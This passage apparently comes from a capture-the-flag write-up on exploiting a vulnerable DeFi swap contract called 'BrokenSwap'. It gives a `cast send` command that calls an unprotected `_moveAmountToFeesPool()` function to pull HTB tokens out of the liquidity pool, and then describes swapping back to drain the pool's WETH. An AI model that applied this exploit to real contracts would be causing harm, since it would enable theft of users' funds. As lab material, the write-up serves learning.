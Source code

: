 ![Finalizing the WETH/HTB swap](./assets/weth-htb_swap_successfull.png)
![WETH balance after swap](./assets/weth_balance_after_swap.png)

2) Exploiting the Liquidity Pool by calling the `_moveAmountToFeesPool()` with arbitrary amount of tokens to move to arbitrary location. For demonstration we'll get out of the Liquidity Pool 498 of the remaining HTB tokens, meaning that it'll become extremely scarce and our ~2 HTB token swapped previously extremely valuable.
```shell
cast send $BROKENSWAP_ADDRESS "_moveAmountToFeesPool(address,uint256)" $HTB_TOKEN_ADDRESS 498000000000000000000 --rpc-url $RPC_URL --private-key $PVK
```

3) Swap back the HTB tokens to drain the WETH tokens in the Liquidity Pool and become rich. 
